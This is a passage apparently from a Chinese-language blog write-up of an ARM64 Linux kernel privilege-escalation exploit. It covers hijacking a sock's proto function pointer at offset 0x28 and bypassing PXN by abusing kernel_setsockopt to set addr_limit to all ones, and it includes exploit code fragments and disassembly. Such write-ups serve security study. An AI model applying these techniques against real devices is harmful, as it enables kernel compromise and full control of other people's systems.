 ```
struct proto {
	void			(*close)(struct sock *sk,
					long timeout);
	int			(*connect)(struct sock *sk,
					struct sockaddr *uaddr,
					int addr_len);
	int			(*disconnect)(struct sock *sk, int flags);

	struct sock *		(*accept)(struct sock *sk, int flags, int *err);

	int			(*ioctl)(struct sock *sk, int cmd,
					 unsigned long arg);
	...}		

```

因此在我们控制的 sock 的 0x28 的地方放上 payload 的地址,

![](https://img-blog.csdnimg.cn/3d7bb8685864414e96427ac0b6955a30.png#pic_center)

![](https://img-blog.csdnimg.cn/361ef84d203648cd9d2b3d6e8eddbda4.png#pic_center)

x19 是我们控制的的 sock,+0x28 存放 payload 的地址 (用户态), 然后调用 payload 存放的值（没有开 smap）, 开了就用不了了

绕过 pxn 这里主要用的是 360 的方法来修改 addr_limit，调用 kernel_sockopt, 改写 addr_limit, 来让用户态自由访问内核态，通过控制 x0 寄存器，跳过 set_fs(old_fs)

addr_limit 规定了特定线程的用户空间地址最大值，超过这个值的地址用户空间代码不能访问。所以把 addr_limit 改成 0xffffffff 就可以对内核为所欲为了

```
nt kernel_setsockopt(struct socket *sock, int level, int optname,
            char *optval, unsigned int optlen)
{
    mm_segment_t oldfs = get_fs();
    char __user *uoptval;
    int err;
 
    uoptval = (char __user __force *) optval;
 
    set_fs(KERNEL_DS);
    if (level == SOL_SOCKET)
        err = sock_setsockopt(sock, level, optname, uoptval, optlen);
    else
        err = sock->ops->setsockopt(sock, level, optname, uoptval,
                        optlen);
    set_fs(oldfs);
    return err;}

```

![](https://img-blog.csdnimg.cn/a53c5548722f4274ab80917b54c37dc3.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAMjAwMDBz,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

```
   *(unsigned long *)((char *)payload + 0x290)  = 0;
	   /*
	    hijack PC here
	    ROM:FFFFFFC0003FEA24                 MOV             X0, X19
	    ROM:FFFFFFC0003FEA28                 LDR             X2, [X19,#0x28]
	    ROM:FFFFFFC0003FEA2C                 LDR             X2, [X2]
	    ROM:FFFFFFC0003FEA30                 BLR             X2    
	   */

	   /*
	    call kernel_setsockopt to set addr_limit 0xFFFFFFFFFFFFFFFF

	    ROM:FFFFFFC00035D788                 STP             X29, X30, [SP,#-0x20+var_s0]!
```